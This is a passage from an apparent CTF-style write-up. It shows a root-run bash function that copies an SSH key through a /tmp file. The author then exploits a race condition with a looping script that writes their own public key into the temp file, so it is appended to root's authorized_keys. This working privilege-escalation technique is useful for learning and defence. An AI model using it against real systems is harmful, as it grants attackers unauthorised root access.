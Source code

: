 ```bash

        fi                                                          

}                                                                   

addKey() {                                                          

        tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)                      

        (umask 110; touch $tmpName)                                 

        /bin/echo $key >>$tmpName                                   

        checkFile $tmpName                                          

        /bin/cat $tmpName >>/root/.ssh/authorized_keys                                                                                  

        /bin/rm $tmpName                                            

} 
```
The `addKey()` function copy a generated ssh key from a `tmp file` to `authorized_keys` in root folder.

So i generate a my pair of key and try to inject the pub key  in the tmp file.

The following script copy the content of t (where i insert my pub key) in the generated tmp file(from `addKey()`).

```bash
#!/bin/bash

while true
do

cat t | tee ssh-*;

done
```
So i started the script and later i executed `enableSSH.sh`

<img src="./img/addkey.png"  width="650"/>
